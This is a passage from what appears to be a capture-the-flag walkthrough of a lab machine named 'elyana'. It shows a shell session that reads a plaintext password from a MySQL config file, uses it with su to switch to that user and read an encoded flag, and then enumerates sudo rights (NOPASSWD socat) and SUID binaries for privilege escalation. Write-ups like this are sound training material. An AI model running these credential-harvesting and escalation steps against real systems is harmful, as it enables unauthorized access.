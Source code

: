 ```
/etc/mysql/conf.d/private.txt

bash-4.4$ cat /etc/mysql/conf.d/private.txt             
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght

```

ah yes I love using find...its my favorite command

that was an extra step but hey now we got ssh too

```
su elyana
Password: E@syR18ght

bash-4.4$ cd /home/elyana
cd /home/elyana
bash-4.4$ cat user.txt
cat user.txt
aGFoYSBiYXppbmdhISB5b3UgZ290IHRyaWNrZWQh

```

Decode the flag to get it to the right format

## Privilege Escalation

The classics

```
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat

```
```
bash-4.4$ find / -perm -u=s 2>/dev/null
find / -perm -u=s 2>/dev/null
/bin/mount
/bin/ping
/bin/fusermount
/bin/su
/bin/bash
/bin/chmod
/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/lxc
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
```